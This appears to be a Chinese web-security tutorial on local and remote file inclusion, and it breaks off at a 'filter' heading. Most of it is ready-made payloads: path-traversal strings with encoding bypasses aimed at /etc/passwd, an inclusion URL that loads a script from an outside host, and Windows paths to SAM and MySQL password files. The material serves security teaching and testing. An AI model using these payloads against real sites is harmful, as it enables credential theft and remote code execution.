 

## 什么是本地文件包含，什么是远程文件包含

本地文件包含就是通过浏览器包含web服务器上的文件，这种漏洞是因为浏览器包含文件时没有进行严格的过滤允许遍历目录的字符注入浏览器并执行。 远程文件包含就是允许攻击者包含一个远程的文件,一般是在远程服务器上预先设置好的脚本。

```
本地文件包含http://example.com/index.php?page=../../../etc/passwd

远程文件包含：http://example.com/index.php?page=http://baimao.com/exploit.txt
```



## 测试方法

```
http://example.com/index.php?page=../../../etc/passwd
```

编码绕过

```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
http://example.com/index.php?page=/var/www/../../etc/passwd
```

windows的一些默认路径

```
c:\boot.ini // 查看系统版本
c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
c:\windows\repair\sam // 存储Windows系统初次安装的密码
c:\ProgramFiles\mysql\my.ini // MySQL配置
c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
c:\windows\php.ini // php 配置信息
```



## PHP伪协议

PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。
![](https://img-blog.csdnimg.cn/img_convert/cdaa73713c8dd6da6149c602ee5e2881.png)

## filter
